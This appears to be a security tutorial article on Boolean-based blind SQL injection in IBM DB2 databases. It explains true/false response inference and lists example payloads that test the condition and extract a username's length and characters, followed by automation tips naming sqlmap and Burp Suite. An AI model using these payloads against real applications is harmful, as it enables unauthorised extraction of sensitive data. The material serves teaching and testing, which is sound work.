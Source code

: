 ```yaml
---
title: Boolean-based Blind SQL Injection in IBM DB2
description: Explore Boolean-based Blind SQL Injection techniques to extract data
  using conditional logic in IBM DB2 databases.
keywords:
- Boolean-based blind
- SQL injection
- IBM DB2
- conditional logic
- data extraction
- boolean logic
- vulnerability
- sensitive data
- application behavior
---
```


# Boolean-based Blind

## Context

This article explores the technique of exploiting Boolean-based Blind SQL Injection within IBM DB2 databases. By leveraging SQL's Boolean logic, it is possible to extract data from a database one bit at a time, based on the application's response to true or false conditions. This method is particularly useful when the application does not return any output directly, making traditional SQL injection techniques ineffective. To gain the most from this article, readers should have a background in SQL syntax, understand Boolean logic, be familiar with HTTP requests, and have prior knowledge of DB2 Blind SQL Injection.

## Theory

### Boolean Logic in SQL

Boolean logic in SQL uses conditional statements to manipulate the execution of SQL queries. When a query is executed, Boolean conditions evaluate to either true or false, which can affect the query's outcome. In the context of SQL injection, an attacker can input these conditions to verify if certain information exists or to extract specific data by interpreting the true/false evaluation.

> **Insight:** Boolean-based blind SQL injection is not limited to extracting user data. You can also use it to enumerate system metadata, such as DB2 version, operating system, and privileges, by targeting system tables and environment variables.

### Exploiting Conditional Responses

Boolean-based Blind SQL Injection exploits conditional responses of the application. A successful attack begins with injecting a condition that is always true (such as `1=1`) and observing the application's behavior. If the application responds differently when changing the injected condition from true to false, it indicates a potential vulnerability. By carefully crafting conditions that evaluate data properties, attackers can extract sensitive information based on patterns in the application's responses.

> **Tip:** Application behavior that indicates a true/false result may include differences in HTTP status codes, page content, error messages, or response times. For example, a normal page load for TRUE and a blank or error page for FALSE.

### Data Extraction through Boolean Conditions

Data extraction through Boolean conditions involves using successive queries to infer information one piece at a time. Attackers can determine aspects such as the length of data fields or specific values by injecting queries that evaluate the truth of various conditions. Changes in application behavior indicate correctness of these guesses, allowing attackers to piece together sensitive data by employing logical testing across multiple injections.

> **Tip:** This technique can be automated using tools or custom scripts to iterate through possible values and interpret application responses, greatly speeding up the extraction process.

## Practice

### Boolean-based Blind SQL Injection

Boolean-based Blind SQL Injection can be manually executed by crafting SQL queries that infer data from true/false conditions. Here is how to perform this technique effectively:

- **Verify Vulnerability with True Condition**
  ```sql
  SELECT * FROM users WHERE id = 1 AND 1=1 -- 
  ```
  Execute this query to test if a known true condition results in a typical application response, confirming that the input is being evaluated.

- **Confirm Vulnerability with False Condition**
  ```sql
  SELECT * FROM users WHERE id = 1 AND 1=2 -- 
  ```
  This basic false condition should lead to a different response. If the application's behavior changes, further exploitation may be possible.

- **Extract Data by Checking Length of Username**
  ```sql
  SELECT * FROM users WHERE id = 1 AND (SELECT LENGTH(username) FROM users WHERE id=1)=5 -- 
  ```
  Use this query to determine if the username associated with `id=1` consists of 5 characters, based on the application's response.

- **Identify Specific Character of Username**
  - **Check First Character:**
    ```sql
    SELECT * FROM users WHERE id = 1 AND (SELECT ASCII(SUBSTR(username,1,1)) FROM users WHERE id=1)=65 -- 
    ```
    This query verifies if the first character is 'A' (ASCII value 65).

  - **Check Second Character:**
    ```sql
    SELECT * FROM users WHERE id = 1 AND (SELECT ASCII(SUBSTR(username,2,1)) FROM users WHERE id=1)=66 -- 
    ```
    This query checks if the second character is 'B' (ASCII value 66).

### Example Output/Behavior
- **TRUE Condition:** Application returns a normal page, expected data, or a specific message.
- **FALSE Condition:** Application returns a blank page, error message, or different content/response code.

### Troubleshooting & Automation
- If the application response is inconsistent, try using time-based blind SQLi to infer true/false.
- Automate the process with tools like sqlmap or custom scripts to speed up extraction and reduce manual effort.

## Tools

- **sqlmap**
- **Burp Suite**